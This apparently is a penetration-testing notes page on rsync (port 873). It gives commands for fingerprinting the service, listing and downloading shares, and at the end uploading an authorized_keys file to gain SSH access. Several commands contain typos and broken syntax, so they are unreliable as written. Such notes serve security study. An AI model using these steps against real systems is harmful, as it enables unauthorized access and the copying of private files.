 ```yaml
---
title: 873 rsync
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - rsync
  - port 873
---
```


# 873 rsync

## Description

rsync is a utility for efficiently transferring and synchronizing files between a computer and an external hard drive and across networked computers. It can be used to copy files locally on a given machine and to/from remote hosts. It is highly versatile and well-known for its delta-transfer algorithm. This algorithm reduces the amount of data transmitted over the network when a version of the file already exists on the destination host. It does this by sending only the differences between the source files and the older version of the files that reside on the destination server. It is often used for backups and mirroring. It finds files that need to be transferred by looking at files that have changed in size or the last modified time. By default, it uses port `873` and can be configured to use SSH for secure file transfers by piggybacking on top of an established SSH server connection. 

## Footprinting rsync

```bash
sudo nmap -sV -p 873 $ip
```

We can next probe the service a bit to see what we can gain access to:

```bash
nc -nv $ip 873
```

If some share is returned, we could go further by enumerating the share:

```bash
rsync -av --list-only rsync://$ip$/<nameOfShare>
```

nmap script to enumerate shares:

```bash
nmap -sV --script "rsync-list-modules" -p <PORT> $ip
```

metasploit module to enumerate shares

```msf
use auxiliary/scanner/rsync/modules_list
```

If IPv6 is in use:

```bash
# Example using IPv6 and a different port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```

## Connect to the service

```bash
rsync rsync://IP
```

## Basic rsync commands

General syntax:

```
rsync [OPTION] ... [USER@]HOST::SRC [DEST]
```


```bash
# List content
rsync IP::

# List recursively a directory
rsync -r IP::folder

# Download a file from  the server to your machine
rsync IP::folder/sourcefile.txt destinationfile.txt    

# Downloa a folder
rsync -r IP::folder/sourcefile.txt destinationfile.txt   
```

## Brute force

Once you have the list of modules you have a few different options depending on the actions you want to take and whether or not authentication is required. If authentication is not required you can list a shared folder:

```bash
rsync -av --list-only rsync://$ip$/<nameOfShared>
```

And copy all files to your local machine via the following command:

```bash
rsync -av rsync://$ip:8730/<nameOfShared>./rsyn_shared
```

This recursively transfers all files from the directory `<nameOfShared>` on the machine $ip into the `./rsync_shared` directory on the local machine. The files are transferred in "archive" mode, which ensures that symbolic links, devices, attributes, permissions, ownerships, etc. are preserved in the transfer.

If you **have credentials** you can **list/download** a **shared name** using (the password will be prompted):

```bash
rsync -av --list-only rsync://<username>@$ip/<nameOfShared>
rsync -av 

rsync://<username>@$ip$:8730/<nameOfShared> ./rsyn_shared
```

You could also **upload** some **content** using rsync (for example, in this case we can upload an **_authorized_keys_** file to obtain access to the box):

```bash
rsync -av home_user/.ssh/ rsync://<username>@$ip/home_user/.ssh
```